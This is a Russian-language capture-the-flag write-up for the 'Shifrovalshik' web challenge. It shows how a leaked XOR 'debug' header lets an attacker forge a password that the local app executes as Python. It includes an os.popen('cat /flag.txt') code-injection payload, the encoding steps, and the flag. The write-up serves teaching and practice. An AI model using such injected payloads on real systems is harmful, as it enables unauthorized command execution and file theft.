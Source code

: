 # Shifrovalshik

***Описание***: Администратор, опасаясь утечки своего ценного кода, разработал систему защиты, но кажется в ней что-то не так, посмотришь?

Ссылка: `http://localhost:5000`

Формат: EclipseCTF{...}

---

***Решение***:

Переходим в браузер, на `http://localhost:5000`

![ScreenShot](../screenshots/shifrovalshik-1.png)

Нам необходимо ввести пароль. Пробуем:

![ScreenShot](../screenshots/shifrovalshik-2.png)

Смотрим код и замечаем генерацию пароля для администратора:

```python
from utils import obf  
key, outcode = obf()  
print("ADMIN PASSWORD: ", key)
```

Посмотрим функцию `obf`:

```python
def obf():
    key = ''.join(secrets.choice(string.ascii_letters + string.digits) for i in range(len(code)))
    out_code = [chr(ord(a) ^ ord(b)) for a,b in zip(key,code)]
    os.remove("code.txt")
    return key, out_code
```

При запуске создается файл `code.txt` с кодом, а затем делается XOR с рандомной строкой длиной кода. Имея заголовок `debug`, мы можем сделать XOR с нашим кодом

```python
resp.headers['debug'] = "".join(outcode).encode().hex()
```

![ScreenShot](../screenshots/shifrovalshik-3.png)

Делаем XOR где в виде ключа будет содержимое `debug`, а в тексте необходимый нам код (для примера чтение флага):

```python
__import__('os').popen("cat /flag.txt").read()
```

```
https://cyberchef.org/#recipe=XOR(%7B'option':'Hex','string':'xxx'%7D,'Standard',false)URL_Encode(true)&input=X19pbXBvcnRfXygnb3MnKS5wb3BlbigiY2F0IC9mbGFnLnR4dCIpLnJlYWQoKQ
```

![ScreenShot](../screenshots/shifrovalshik-4.png)

Вставляем полученную строку в GET  параметр `password` и получаем флаг

![ScreenShot](../screenshots/shifrovalshik-5.png)

---

***Флаг***: `EclipseCTF{Th1s_Pa$$w0rD_1S_f0R_Rc6}`